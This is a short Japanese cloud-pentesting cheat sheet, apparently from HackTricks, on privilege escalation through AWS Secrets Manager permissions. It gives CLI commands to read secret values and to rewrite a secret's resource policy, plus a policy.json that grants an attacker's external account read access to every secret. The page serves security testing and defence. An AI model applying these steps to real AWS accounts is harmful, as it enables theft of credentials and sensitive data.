# AWS - Secrets Manager Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

secrets managerの詳細は以下を参照してください：

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### `secretsmanager:GetSecretValue`

この権限を持つ攻撃者は、**シークレット内に保存された値**をAWSの**Secretsmanager**から取得できます。
```bash
aws secretsmanager get-secret-value --secret-id <secret_name> # Get value
```
**潜在的影響:** AWS secrets manager service 内の機密性の高いデータへアクセスできる。

> [!WARNING]
> 注意: `secretsmanager:BatchGetSecretValue` の許可があっても、機密シークレットを取得するには `secretsmanager:GetSecretValue` も必要です。

### `secretsmanager:GetResourcePolicy`, `secretsmanager:PutResourcePolicy`, (`secretsmanager:ListSecrets`)

前述の権限があれば、**他のプリンシパル/アカウント（外部を含む）にアクセス権を付与して** **シークレット** にアクセスさせることができます。 ただし、KMSキーで暗号化された**シークレットを読み取る**には、ユーザーは**KMSキーへのアクセス権**も持っている必要があります（詳細は [KMS Enum page](../aws-services/aws-kms-enum.md) を参照）。
```bash
aws secretsmanager list-secrets
aws secretsmanager get-resource-policy --secret-id <secret_name>
aws secretsmanager put-resource-policy --secret-id <secret_name> --resource-policy file:///tmp/policy.json
```
policy.json:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<attackers_account>:root"
},
"Action": "secretsmanager:GetSecretValue",
"Resource": "*"
}
]
}
```
{{#include ../../../banners/hacktricks-training.md}}
